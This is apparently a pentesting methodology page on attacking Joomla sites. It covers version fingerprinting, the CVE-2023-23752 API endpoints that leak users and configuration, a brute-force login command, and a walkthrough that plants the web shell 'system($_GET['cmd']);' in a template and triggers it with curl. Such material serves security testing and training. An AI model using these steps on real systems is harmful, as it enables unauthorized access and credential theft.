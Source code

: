 # Joomla

### Joomla Statistics

Joomla collects some anonymous [usage statistics](https://developer.joomla.org/about/stats.html) such as the breakdown of Joomla, PHP and database versions and server operating systems in use on Joomla installations. This data can be queried via their public [API](https://developer.joomla.org/about/stats/api.html).

```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
    "data": {
        "cms_version": {
            "3.0": 0,
            "3.1": 0,
            "3.10": 6.33,
            "3.2": 0.01,
            "3.3": 0.02,
            "3.4": 0.05,
            "3.5": 12.24,
            "3.6": 22.85,
            "3.7": 7.99,
            "3.8": 17.72,
            "3.9": 27.24,
            "4.0": 3.21,
            "4.1": 1.53,
            "4.2": 0.82,
            "4.3": 0,
            "5.0": 0
        },
        "total": 2951032
    }
}
```

## Enumeration

### Discovery/Footprinting

- Check the **meta**

```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```

- robots.txt

```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```

- README.txt

```
1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.9 version history - [https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history](https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history)
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```

### Version

- In **/administrator/manifests/files/joomla.xml** you can see the version.
- In **/language/en-GB/en-GB.xml** you can get the version of Joomla.
- In **plugins/system/cache/cache.xml** you can see an approximate version.

### Automatic

```bash
droopescan scan joomla --url http://joomla-site.local/
```

In[ **80,443 - Pentesting Web Methodology is a section about CMS scanners**](#cms-scanners) that can scan Joomla.

### API Unauthenticated Information Disclosure:

Versions From 4.0.0 to 4.2.7 are vulnerable to Unauthenticated information disclosure (CVE-2023-23752) that will dump creds and other information.

- Users: `http://<host>/api/v1/users?public=true`
- Config File: `http://<host>/api/index.php/v1/config/application?public=true`

**MSF Module**: `scanner/http/joomla_api_improper_access_checks` or ruby script: [51334](https://www.exploit-db.com/exploits/51334)

### Brute-Force

You can use this [script](https://github.com/ajnik/joomla-bruteforce) to attempt to brute force the login.

```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```

## RCE

If you managed to get **admin credentials** you can **RCE inside of it** by adding a snippet of **PHP code** to gain **RCE**. We can do this by **customizing** a **template**.

1. **Click** on **`Templates`** on the bottom left under `Configuration` to pull up the templates menu.
2. **Click** on a **template** name. Let's choose **`protostar`** under the `Template` column header. This will bring us to the **`Templates: Customise`** page.
3. Finally, you can click on a page to pull up the **page source**. Let's choose the **`error.php`** page. We'll add a **PHP one-liner to gain code execution** as follows:
   1. **`system($_GET['cmd']);`**
4. **Save & Close**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## From XSS to RCE

- [**JoomSploit**](https://github.com/nowak0x01/JoomSploit): Joomla Exploitation Script that **elevate XSS to RCE or Others Critical Vulnerabilities**. For more info check [**this post**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html). It provides **support for Joomla Versions 5.X.X, 4.X.X, and 3.X.X, and allows to:**
  - _**Privilege Escalation:**_ Creates an user in Joomla.
  - _**(RCE) Built-In Templates Edit:**_ Edit a Built-In Templates in Joomla.
  - _**(Custom) Custom Exploits:**_ Custom Exploits for Third-Party Joomla Plugins.


